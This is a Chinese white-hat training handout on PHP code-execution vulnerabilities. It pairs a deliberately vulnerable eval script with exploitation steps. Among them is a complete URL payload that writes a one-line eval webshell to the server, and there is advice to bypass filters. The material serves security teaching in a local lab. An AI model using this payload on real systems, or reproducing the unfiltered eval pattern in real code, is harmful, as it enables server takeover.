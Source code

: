 # 米斯特白帽培训讲义 漏洞篇 代码执行

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)


## 原理

由于开发人员编写源码时，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句，并交由服务端执行。命令注入攻击中，Web 服务器没有过滤类似`system`、`eval`和`exec`等函数，是该漏洞攻击成功的主要原因。

## 实例代码

```php
<?php
// code-exe.php:
$code=@$_GET['code'];//http://localhost/subject/code-exe.php?code=
echo "<center>Payload:".$code."<br/>Result:</center>
eval($code);
```

整个代码就三行，第一行用于从 URL 参数中读取`code`参数的值。第二行用于输出该参数的值，用于检查该参数。第三行直接将该参数当做 PHP 代码执行。由于不存在任何过滤，就会产生代码执行漏洞。

我们在该文件的目录下执行`php -S 0.0.0.0:80`，之后访问`http://localhost/code-exe.php?code=phpinfo();`，我们可以看到该代码执行了`phpinfo`函数：

![](http://ww3.sinaimg.cn/large/841aea59jw1fatrv2af9aj213d0ncmzq.jpg)

## 利用

我们可以将 URL 中`code`参数值换成不同的 PHP 代码，使其执行不同的 PHP 代码。利用此漏洞的关键还是熟悉所有可用的 PHP 代码。

比如，可以使用`phpinfo`或者`echo`等调试函数来判定漏洞。最重要的是，可以利用这个漏洞写入 Webshell，代码如下：

```php
$file='mst.php'; // 一句话木马的文件名
$person='<?php @eval($_POST[1]);?>'; // 一句话文件名的代码
file_put_contents($file,$person, FILE_APPEND | LOCK_EX); // 当key.php文件不存在会自动创建，如果存在就会添加
```

我们需要把这三行代码写入 URL 中，得到的 URL 是这样：`http://localhost/code-exe.php?code=$file='mst.php';$person='<?php @eval($_POST[1]);?>';file_put_contents($file,$person, FILE_APPEND | LOCK_EX);`。

访问之后，当前目录就会多出一个`mst.php`，内容为`<?php @eval($_POST[1]);?>`，这个就是一句话木马。由于不是讲工具的章节，这里就不拿菜刀演示了。

在实际代码中，当然不可能这么短，就需要大家使用`eval`和`exec`作为关键词来搜索可能的漏洞点。另外，实际代码中还可能在执行之前对`$code`进行过滤，也需要大家发挥创造性，绕过过滤来成功利用它。

## 附录

+   [新手指南：DVWA-1.9全级别教程之Command Injection](http://www.freebuf.com/articles/web/116714.html)
